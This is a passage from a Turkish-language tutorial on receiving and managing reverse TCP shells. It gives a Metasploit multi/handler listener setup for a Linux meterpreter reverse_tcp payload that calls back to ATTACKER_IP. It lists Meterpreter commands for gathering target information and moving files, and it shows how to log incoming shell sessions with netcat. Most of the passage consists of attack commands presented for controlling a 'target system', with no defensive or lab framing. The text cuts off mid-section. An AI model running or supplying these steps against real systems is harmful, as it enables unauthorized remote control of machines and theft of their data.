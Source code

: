 4️⃣ Metasploit ile Gelen Verileri Görme
Eğer Metasploit Framework (MSF) kullanıyorsanız, "Meterpreter" bağlantısı üzerinden gelen bilgileri yönetebilirsiniz.
📌 Bağlantıyı Dinlemek için:
bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse\_tcp
set LHOST ATTACKER\_IP
set LPORT 4444
exploit
Bağlantı sağlandıktan sonra aşağıdaki Meterpreter komutlarını kullanabilirsiniz:
sysinfo → Hedef sistem bilgilerini gösterir.
getuid → Hangi kullanıcı olarak bağlı olduğunuzu gösterir.
pwd → Mevcut dizini gösterir.
ls → Bulunduğunuz dizindeki dosyaları listeler.
download  → Hedef sistemden dosya indirir.
upload  → Hedef sisteme dosya yükler.
shell → Normal sistem shelline geçiş yapar.
📌 Örnek Çıktı:
bash
meterpreter > sysinfo
Computer : target.local
OS : Linux (Ubuntu 22.04)
Meterpreter : x86/linux
Bu komutlarla hedef sistemdeki bilgileri daha detaylı görebilir ve yönetebilirsiniz.

5️⃣ Ters TCP Bağlantısından Gelen Bilgileri Dosyaya Kaydetme
Eğer terminal üzerinden gelen verileri kaydetmek istiyorsanız, aşağıdaki yöntemleri kullanabilirsiniz.
📌 Netcat ile Gelen Verileri Dosyaya Kaydetme:
bash
nc -lvp 4444 > log.txt
Bağlantı kurulduğunda tüm gelen bilgiler log.txt dosyasına kaydedilir.
📌 Metasploit ile Gelen Verileri Kaydetme:
bash
set AutoRunScript post/windows/manage/migrate
Bu ayar, bağlantı sonrası belirli komutları otomatik çalıştırarak bilgileri kaydetmeye yardımcı olur.

Sonuç
Ters TCP bağlantısı sağlandıktan sonra, gelen bilgileri görmek için terminal üzerinde çalıştırılabilecek komutlar: ✅ Netcat (nc) ile bağlantıyı dinleme ve shell komutları çalıştırma.
✅ Bash veya Python reverse shell üzerinden sistem bilgilerini alma.
✅ Metasploit Meterpreter kullanarak daha detaylı kontrol sağlama.
✅ Elde edilen bilgileri dosyaya kaydetme.
Her yöntemde, komut satırından manuel olarak komutlar çalıştırarak hedef sistem hakkında bilgi toplayabilir ve verileri görüntüleyebilirsiniz.
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_
Metasploit ile Dinleme Hakkında Daha fazla Bilgi;
Metasploit ile Gelen Verileri Görme
Metasploit Framework (MSF) kullanarak ters TCP bağlantısı sağladıktan sonra, gelen verileri Meterpreter oturumu üzerinden yönetebilir ve görüntüleyebilirsiniz. İşte adım adım Metasploit ile gelen bilgileri görme süreci:
